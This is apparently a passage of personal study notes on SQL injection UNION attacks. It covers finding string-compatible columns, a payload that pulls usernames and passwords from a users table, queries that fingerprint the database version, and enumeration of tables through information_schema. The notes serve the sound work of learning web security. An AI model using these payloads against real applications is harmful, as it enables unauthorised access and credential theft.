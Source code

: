 - If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
  - `Conversion failed when converting the varchar value 'a' to data type int.`

- If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.


---

#### retrieve interesting data by SQL injection UNION attack to

1. after determined the number of columns returned by the original query
2. found which columns can hold string data,
3. you are in a position to retrieve interesting data.

Suppose that:
* The original query returns two columns, both of which can hold string data.
* The injection point is a quoted string within the `WHERE` clause.
* The database contains a table called `users` with the columns `username` and `password`.

- to retrieve the contents of the `users` table by submitting the input:
  - `' UNION SELECT username, password FROM users--`

- the crucial information needed to perform this attack is that there is a table called `users` with two columns called `username` and `password`.

---

#### Querying the database type and version

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:

```
| Database type    | Query                   |
| ---------------- | ----------------------- |
| Microsoft, MySQL | SELECT @@version        |
| Oracle           | SELECT * FROM v$version |
| PostgreSQL       | SELECT version()        |
```

---

#### Listing the contents of the database

- query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

```
| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ---------- |
| MyDatabase    | dbo          | Products   | BASE TABLE |
| MyDatabase    | dbo          | Users      | BASE TABLE |
| MyDatabase    | dbo          | Feedback   | BASE TABLE |
```
